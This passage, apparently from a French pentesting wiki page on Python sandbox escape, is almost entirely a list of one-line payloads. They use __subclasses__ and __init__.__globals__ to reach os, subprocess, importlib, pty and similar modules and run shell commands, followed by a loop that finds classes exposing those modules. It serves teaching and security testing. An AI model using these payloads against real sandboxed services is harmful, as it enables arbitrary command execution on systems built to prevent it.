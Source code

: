 Nous pouvons faire la même chose avec **d'autres bibliothèques** que nous savons pouvoir être utilisées pour **exécuter des commandes** :
```python
#os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" in x.__init__.__globals__ ][0]["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" == x.__init__.__globals__["__name__"] ][0]["system"]("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'os." in str(x) ][0]['system']('ls')

#subprocess
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "subprocess" == x.__init__.__globals__["__name__"] ][0]["Popen"]("ls")
[ x for x in ''.__class__.__base__.__subclasses__() if "'subprocess." in str(x) ][0]['Popen']('ls')
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__ == 'Popen' ][0]('ls')

#builtins
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "__bultins__" in x.__init__.__globals__ ]
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__("os").system("ls")

#sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"].system("ls")

#commands (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "commands" in x.__init__.__globals__ ][0]["commands"].getoutput("ls")

#pty (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pty" in x.__init__.__globals__ ][0]["pty"].spawn("ls")

#importlib
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].__import__("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].__import__("os").system("ls")

#pdb
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pdb" in x.__init__.__globals__ ][0]["pdb"].os.system("ls")
```
De plus, nous pourrions même rechercher quels modules chargent des bibliothèques malveillantes:
```python
bad_libraries_names = ["os", "commands", "subprocess", "pty", "importlib", "imp", "sys", "builtins", "pip", "pdb"]
for b in bad_libraries_names:
     vuln_libs = [ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and b in x.__init__.__globals__ ]
     print(f"{b}: {', '.join(vuln_libs)}")

"""
```